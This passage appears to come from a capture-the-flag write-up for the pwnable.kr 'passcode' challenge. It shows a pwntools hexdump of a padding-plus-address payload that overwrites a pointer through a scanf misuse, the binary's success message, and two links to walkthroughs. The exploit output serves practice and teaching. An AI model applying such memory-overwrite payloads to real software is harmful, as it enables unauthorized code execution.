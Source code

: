 ```python
[DEBUG] Received 0xe7 bytes:
    00000000  57 65 6c 63  6f 6d 65 20  61 61 61 61  61 61 61 61  │Welc│ome │aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  61 61 61 61  04 a0 04 08  21 0a 53 6f  │aaaa│aaaa│····│!·So│
    00000070  72 72 79 20  6d 6f 6d 2e  2e 20 49 20  67 6f 74 20  │rry │mom.│. I │got │
    00000080  63 6f 6e 66  75 73 65 64  20 61 62 6f  75 74 20 73  │conf│used│ abo│ut s│
    00000090  63 61 6e 66  20 75 73 61  67 65 20 3a  28 0a 65 6e  │canf│ usa│ge :│(·en│
    000000a0  74 65 72 20  70 61 73 73  63 6f 64 65  31 20 3a 20  │ter │pass│code│1 : │
    000000b0  4e 6f 77 20  49 20 63 61  6e 20 73 61  66 65 6c 79  │Now │I ca│n sa│fely│
    000000c0  20 74 72 75  73 74 20 79  6f 75 20 74  68 61 74 20  │ tru│st y│ou t│hat │
    000000d0  79 6f 75 20  68 61 76 65  20 63 72 65  64 65 6e 74  │you │have│ cre│dent│
    000000e0  69 61 6c 20  3a 29 0a                               │ial │:)·│
    000000e7
[*] Stopped remote process 'passcode' on pwnable.kr (pid 48142)
b'enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x04\xa0\x04\x08!\nSorry mom.. I got confused about scanf usage :(\nenter passcode1 : Now I can safely trust you that you have credential :)\n'
```

**References** 

- [https://jaimelightfoot.com/blog/pwnable-kr-passcode-walkthrough/](https://jaimelightfoot.com/blog/pwnable-kr-passcode-walkthrough/)
- [https://medium.com/@0x9090/pwnable-kr-passcode-writeup-2fdfd9fec283](https://medium.com/@0x9090/pwnable-kr-passcode-writeup-2fdfd9fec283)